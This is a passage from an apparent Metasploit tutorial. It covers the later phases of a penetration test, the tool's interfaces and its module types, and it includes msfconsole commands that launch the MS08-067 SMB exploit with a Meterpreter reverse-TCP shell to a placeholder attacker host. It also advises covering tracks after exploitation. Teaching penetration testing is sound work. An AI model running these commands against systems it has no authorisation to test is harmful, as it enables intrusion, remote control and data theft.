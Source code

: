     - Customize payload options such as IP addresses and ports for reverse connections.
6. **Exploitation:**    
    - Execute the exploit against the target system.
    - Monitor the exploitation process and troubleshoot any issues.
7. **Post-Exploitation:**    
    - Use post-exploitation modules to perform tasks such as privilege escalation, data exfiltration, and network pivoting.
    - Maintain access and cover tracks to avoid detection.
8. **Reporting and Analysis:**    
    - Collect and analyze data from the exploitation and post-exploitation phases.
    - Generate detailed reports for stakeholders, outlining findings, impact, and remediation recommendations.

# Metasploit Components

#### User Interfaces

- **CLI (Msfconsole):** Command-line interface for interacting with Metasploit.
- **GUI (Armitage):** Graphical user interface for visualizing and managing attacks.
- **Web Interface (Metasploit Community Edition):** Web-based interface for managing and automating penetration tests.

#### Msfconsole
Msfconsole is the primary CLI for interacting with Metasploit. It enables users to configure and launch exploit modules, payloads, and auxiliary modules. Msfconsole supports database integration, scripting, job control, and comprehensive output and logging options.

#### Modules
Metasploit modules are categorized into several types:

- **Exploits:** Exploits are modules that take advantage of vulnerabilities in target systems. They are categorized by the type of target system.

```
use exploit/windows/smb/ms08_067_netapi
set RHOST <target_ip>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attack_ip>
set LPORT <attack_port>
exploit
```

- **Payloads:** Payloads are the code that runs on the target system once the exploit is successful. They can be self-contained or staged.

	- **Singles:** Standalone payloads that execute a specific action (e.g., adding a user).
	- **Stagers:** Set up a connection channel between Metasploit and the target.
	- **Stages:** Delivered by stagers, allowing for larger payloads.

```
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attack_ip>
set LPORT <attack_port>
```
